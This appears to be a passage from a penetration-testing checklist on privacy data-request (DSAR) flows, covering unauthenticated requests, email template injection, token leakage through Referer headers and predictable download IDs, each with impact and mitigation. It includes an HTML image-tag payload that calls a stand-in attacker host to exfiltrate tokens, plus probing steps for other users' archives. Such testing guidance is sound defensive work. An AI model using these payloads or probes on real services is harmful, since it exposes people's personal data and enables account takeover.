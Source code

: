 **Technique:** Form accepts DSAR with minimal proof (just an email or name) and returns data or sends sensitive attachments without verifying identity.  

**Detection / PoC:** Submit a DSAR for an account you don’t own (use a disposable email). If the system responds with data or sends an attachment referencing the target, it is unauthenticated. Use Burp Collaborator to capture any OOB.  

**Impact:** High → Immediate disclosure of PII; doxing; regulatory exposure. Could be mass-automated for many users (mass leakage).  

**Mitigation:** Require identity proof (two-factor, knowledge factors) and rate limit DSAR requests.

  

### 2. Email template injection / HTML injection in reflected fields

**Technique:** User-supplied fields (name, description) are embedded into email templates unsanitized. Insert `<img src="https://attacker/?q=__RequestLink__">` or similar.  

**Detection / PoC:** Put an `<img>` tag pointing to your Burp Collaborator or collector with a placeholder for injection (if template language supports placeholders). Submit DSAR or use profile fields that appear in emails. Monitor collaborator logs for requests containing tokens/links.  

**Impact:** High → Exfiltrate confirmation URLs, tokens, PII present in email; can chain to targeted phishing or account takeover. Large blast radius when templates are tenant-editable across customers.  

**Mitigation:** Sanitize/HTML‑encode inputs; strip tags; proxy remote images; remove tokens from links embedded in user-controlled content.

  

### 3. Link/Token Disclosure via Redirects or Referer

**Technique:** Confirmation links include tokens in query parameters. When email client or server fetches remote resources, referer or redirect flows may leak the token to third parties.  

**Detection / PoC:** Inject an external resource URL that causes the mail client or preview proxy to fetch the confirmation link or that creates a redirect containing the token. Use your collector to capture Referer header or redirected URL.  

**Impact:** Medium–High → Tokens revealed even without template injection; can be used for takeover or to build recon.  

**Mitigation:** Keep tokens out of client-visible URLs (POST flows, one-time short tokens, reference IDs), use short expiry and single-use tokens.

  

### 4. Insecure Direct Object Reference (IDOR) in DSAR downloads

**Technique:** Download URLs for DSAR results use predictable IDs and lack access checks (e.g., `/downloads/dsar/12345.zip`).  

**Detection / PoC:** Request a DSAR for your account, note download link. Modify identifier values (increment/decrement, fuzz) to see if you can access other users' archives.  

**Impact:** Critical if archives contain PII for other users; mass-exfil possible via automation.  

